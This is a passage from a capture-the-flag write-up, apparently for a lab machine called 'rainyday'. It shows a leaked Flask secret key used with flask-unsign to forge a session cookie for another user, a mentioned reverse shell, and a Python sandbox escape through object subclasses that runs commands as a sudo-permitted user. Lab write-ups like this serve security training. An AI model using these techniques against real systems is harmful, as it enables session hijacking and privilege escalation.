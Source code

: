 ```python
SECRET_KEY = "f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67"
```

- Using the secret to decode the current session:

```bash
flask-unsign -c $(cat cookie) --secret $(cat secret) -d

{'username': 'gary'}
```

- Now I can make a session cookie for the username jack:

```bash
flask-unsign -s -c "{'username': 'jack'}" --secret $(cat secret)
eyJ1c2VybmFtZSI6ImphY2sifQ.Y6rNRw.bXeCKW9ptc3EhL2rIw3zP2tkPgY
```

- Using this cookie on the website I'm now `Jack` and I have access to the docker container image, got a revshell same way I did with the previous image as `gary`
- I didn't get anything useful from this image, so back to `(jack_adm) NOPASSWD: /usr/bin/safe_python *`
- I tried a simple python script to execute system commands:

```bash
jack@rainyday:/tmp/bitchass$ cat test.py 
import os

os.system("whoami")

print("Hello world!")
jack@rainyday:/tmp/bitchass$ python3 test.py
jack
Hello world!
jack@rainyday:/tmp/bitchass$ sudo -u jack_adm safe_python test.py
Traceback (most recent call last):
  File "/usr/bin/safe_python", line 29, in <module>
    exec(f.read(), env)
  File "<string>", line 1, in <module>
ImportError: __import__ not found
```

- The module `import` was not found it said, there should be somewhere else I can pull `import` from, because this is most likely sandboxed
- The way I did it, I pulled `__import__` using subclasses and builtins, more information can be found on this [Hacktricks article](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes), I did it via `<class 'warnings.catch_warnings'>` builtins' class, pulled `__import__` out of it and imported `os` then executed my commands

```bash
jack@rainyday:/tmp/bitchass$ cat poc.py 
().__class__.__bases__[0].__subclasses__()[144]()._module.__builtins__['__import__']('os').system('whoami')
jack@rainyday:/tmp/bitchass$ sudo -u jack_adm safe_python poc.py 
jack_adm
jack@rainyday:/tmp/bitchass$ 
```

